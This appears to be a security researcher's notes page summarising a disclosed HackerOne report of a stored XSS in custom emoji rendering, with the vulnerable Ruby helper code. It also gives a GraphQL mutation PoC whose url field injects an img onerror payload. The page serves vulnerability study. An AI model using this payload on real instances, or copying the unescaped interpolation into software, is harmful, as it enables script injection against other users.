 # 19

{% embed url="https://hackerone.com/reports/1198517" %}
A Stored XSS with a feature of custom emoji
{% endembed %}

```ruby
   def emoji_image_tag(name, src)
      "<img class='emoji' title=':#{name}:' alt=':#{name}:' src='#{src}' height='20' width='20' align='absmiddle' />"
    end

    ...

    def custom_emoji_tag(name, image_source)
      data = {
        name: name
      }

      ActionController::Base.helpers.content_tag('gl-emoji', title: name, data: data) do
        emoji_image_tag(name, image_source).html_safe
      end
    end
```

The argument image\_source not be sanitized in line-13, and make a Stored XSS

PoC(Create a custom emoji use the graphql api):

```
mutation {
  createCustomEmoji(input: 
    {
      groupPath: "xss_target", 
      name:"xssreplace",
      url:"http://aaa#'><img onerror=alert(location) src=.>"
    }) {
    customEmoji {
      id
      name
      url
    }
  }
}
```



##



{% embed url="https://hackerone.com/reports/970878" %}





